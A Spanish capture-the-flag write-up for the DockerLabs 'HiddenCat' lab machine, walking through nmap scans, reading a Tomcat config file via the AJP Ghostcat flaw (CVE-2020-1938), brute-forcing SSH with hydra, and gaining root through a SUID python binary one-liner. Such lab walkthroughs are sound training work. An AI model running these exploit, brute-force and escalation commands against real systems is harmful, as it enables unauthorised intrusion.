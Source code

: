 # Máquina HiddenCat

Dificultad -> Easy

Enlace a la máquina -> [Dockerlabs](https://dockerlabs.es/)

## Reconocimiento

Comenzamos realizando un escaneo general con **nmap** sobre la IP de la máquina víctima para ver que puertos tiene abiertos.

```shell
nmap -p- --open -sT --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts
________________________________________________
PORT     STATE SERVICE    REASON
22/tcp   open  ssh        syn-ack
8009/tcp open  ajp13      syn-ack
8080/tcp open  http-proxy syn-ack
```

Lanzamos un conjunto de scripts predeterminado con **nmap** para que nos reporte más información relacionada a los puertos descubiertos en el anterior escaneo.

```shell
nmap -sCV -p22,8009,8080 172.17.0.2 -oN targeted
________________________________________________
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.9p1 Debian 10+deb10u4 (protocol 2.0)
8009/tcp open  ajp13   Apache Jserv (Protocol v1.3)
| ajp-methods: 
|_  Supported methods: GET HEAD POST OPTIONS
8080/tcp open  http    Apache Tomcat 9.0.30
|_http-favicon: Apache Tomcat
|_http-title: Apache Tomcat/9.0.30
```

Vemos la versión de Tomcat -> **9.0.30**

***

## Explotación

Si buscamos exploits para esa versión concreta de **Tomcat**, encontraremos una vulnerabilidad concreta en **github**: Vulnerabilidad -> [Enlace github](https://github.com/vulhub/vulhub/tree/master/tomcat/CVE-2020-1938)

Esta vulnerabilidad nos lleva hasta este exploit en python -> [Exploit](https://github.com/YDHCUI/CNVD-2020-10487-Tomcat-Ajp-lfi)

```shell
python2.7 CNVD-2020-10487-Tomcat-Ajp-lfi.py -p 8009 -f /WEB-INF/web.xml 172.17.0.2
```

![Pasted image 20240511201812](https://github.com/albertomarcostic/DockerLabs-WriteUps/assets/131155486/3d8e4fd8-f4a3-4fe8-9bab-b860058de071)

Hemos conseguido ver el contenido del archivo **/WEB-INF/web.xml**. Vemos que el admin o un usuario que se llama **Jerry**. Aplicamos fuerza bruta con ese usuario al **ssh** y obtenemos sus credenciales:

```shell
hydra -l jerry -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2 -t 10 -I
------------------------------------------------------------------------------
[22][ssh] host: 172.17.0.2   login: jerry   password: chocolate
```

Estamos dentro !

***

## Escalada de privilegios

Si buscamos por archivos con permisos **SUID** en el sistema, encontramos por ejemplo **python** con el cual es fácil escalar privilegios:

```shell
find / -perm -4000 2>/dev/null
----------------------------
/usr/bin/perl
/usr/bin/perl5.28.1
/usr/bin/python3.7
/usr/bin/python3.7m
```

```shell
/usr/bin/python3.7 -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```

```shell
whoami
--------------------
root
```

Hemos alcanzado el nivel de privilegios máximos en el sistema !
